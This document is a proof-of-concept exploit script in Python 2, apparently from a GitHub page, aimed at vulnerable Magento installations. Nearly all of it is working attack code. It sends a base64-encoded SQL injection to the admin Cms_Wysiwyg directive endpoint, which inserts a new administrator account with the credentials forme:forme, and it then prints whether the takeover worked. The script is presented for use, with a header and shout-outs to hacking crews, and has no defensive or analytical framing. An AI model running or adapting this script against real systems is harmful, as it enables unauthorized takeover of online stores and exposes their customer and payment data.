 ```bash
If magento version is vulnerable, this script will create admin account with username forme and password forme



////////////////
///  POC   ////
///////////////
Exploit script starts here
///////////////////
#Thanks to
# Zero cool, code breaker ICA, Team indishell, my father , rr mam, jagriti and DON
import requests
import base64
import sys

target = "http://target.com/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"





/////////////////
exploit code ends here

```
